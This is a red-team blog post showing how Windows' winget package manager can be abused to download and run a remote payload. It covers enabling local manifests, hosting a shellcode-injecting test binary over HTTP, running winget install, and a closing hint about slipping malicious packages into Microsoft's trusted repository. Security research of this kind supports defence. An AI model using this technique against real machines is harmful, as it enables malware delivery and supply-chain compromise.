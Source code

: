 ```yaml
---
layout: post
title: New Year, New LOLBAS?
description: Abusing Windows Package Manager tool winget.exe
last_modified_at:
author: "@saulpanders"
comments: true
tags: security, red-team
---
```

As a fun way to kick off the new year, here's a quick look at a "mostly useless" LOLBIN/LOLBAS - `winget.exe`. To see it in action, skip to the "Demo" section.

## Window Package Manager Tool
According to Microsoft: "The winget command line tool enables users to discover, install, upgrade, remove and configure applications on Windows... computers."
\
\
In other words, winget allows the user to extend the functionality of their Windows system - and may grant them elevated privileges to do so. \
\
Microsoft created a open source repo dubbed the [Microsoft Community Package Manifest Repository](https://github.com/microsoft/winget-pkgs) where independent and third party vendors can submit manifests for their own applications for consideration into the Microsoft managed package ecosystem.
### Quick Notes
A package manager is a system or toolset used to automate installing, upgrading, configuring and using software. Software Developers often use package manager tools to create specific environments for code execution. \
In this instance, Microsoft is moderating the environment where winget <i>usually</i> discovers and imports its packages from. 

### Facts & Features
Here are a few things that caught my eye when reading about this topic:
- Winget supports the following Installer types: EXE, MSI, MSIX, APPX, BURN, NULLSOFT, INNO
- Winget will trigger UAC for a regular user, not for an admin 
- Winget may show up in a sysadmin's batch scripts 
- Winget accepts a list of multiple packages in JSON format

### Logs
Winget installer saves its logs at the following path: \
`C:\Users\sampleUser\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\LocalState\DiagOutputDir` \
Or according to MSDN: \
`%temp%\AICLI\*.log`

## Demo
Here's a walkthrough on how to leverage winget to download and execute a remote binary with elevated privileges.

#### Enable Local Manifest Files
To start, we need to tell winget to trust locally-defined manifest files. This step is crucial to circumvent the protections provided by Microsoft's trusted default repos - and therefore may require Local Administrator privileges to accomplish.
```
C:\> winget.exe settings --enable LocalManifestFiles
```
![Enable LocalManifestFiles](/assets/img/2022-01-02-New-Year-New-LOLBAS/enable_local_manifest.png)

#### Create Manifest 
Next, we create the local manifest file specifying our target "package" to install. Winget expects a manifest file in YAML format with certain key fields explicitly defined.
For example, the Installers field has a subfield called InstallerSha256 which requires a SHA-256 hash of the installer file referenced in the manifest. You can find an example manifest file [here](https://gist.github.com/saulpanders/00e1177602a8c01a3a8bfa932b3886b0) or consult [MSDN docs](https://docs.microsoft.com/en-us/windows/package-manager/package/manifest?tabs=minschema%2Cversion-example#tips-and-best-practices) to write your own.
![Demo Manifest](/assets/img/2022-01-02-New-Year-New-LOLBAS/manifest.png)
For this demo I am using a custom PoC written in golang that will print the size of a pointer to the screen, schedule a fiber, and inject shellcode that ultimately spawns calculator as the payload for winget to pull down and execute. 

#### Stage Payload
Now we are ready to stage the payload for our demo. I am using a DigitalOcean Ubuntu 18.04 LTS virtual cloud server as a quick test machine.
For hosting the payload, I like to use Python3's `http.server` module as a super low-effort web server.
```
$ python3 -m http.server 80
```

#### Run Winget
All we have to do now is run winget with our manifest file....
```
C:\> winget.exe install --manifest .\winget-manifest-test.yml
```
![Run Winget](/assets/img/2022-01-02-New-Year-New-LOLBAS/run_winget.png)
... and our payload + calculator arrives.
![Payload Execution](/assets/img/2022-01-02-New-Year-New-LOLBAS/payloads.png)

#### Profit?
The screenshot below demonstrates a view of our processes from ProcessHacker. 
![ProcessHacker](/assets/img/2022-01-02-New-Year-New-LOLBAS/ProcessHacker_view.png)
A couple of things to note:
 - Our test.exe payload had its name changed to TestInstall.1.0.0.exe, reflecting the information outlined in our manifest file.
 - During installation, TestInstall.1.0.0.exe becomes a child of AppInstallerCLI.exe
 
#### Demo Log
For completeness sake, here is winget's log output from our demo:
![Winget Log](/assets/img/2022-01-02-New-Year-New-LOLBAS/log.png)


### Why "Mostly Useless"?
When considering the viability of this technique on a stealthier engagement like a red team, there are several limiting factors to consider:
* You will have to have enabled the `LocalManifestFiles` setting which means you will need administrative rights. 
* You will need to drop a local manifest file describing the remote payload to disk on the target host.
* SmartScreen may still flag your payload as malicious
\\
Given these considerations, this trick seems more like a novelty than actual tradecraft. Unless, of course, you manage to slip a dirty package into Microsoft's trusted repos... 

## Source(s):
- [MSDN](https://docs.microsoft.com/en-us/windows/package-manager/winget/#production-recommended)
- [LOLBAS Project](https://lolbas-project.github.io/)
- [ProcessHacker](https://processhacker.sourceforge.io/)
- [DigitalOcean](https://www.digitalocean.com/)



		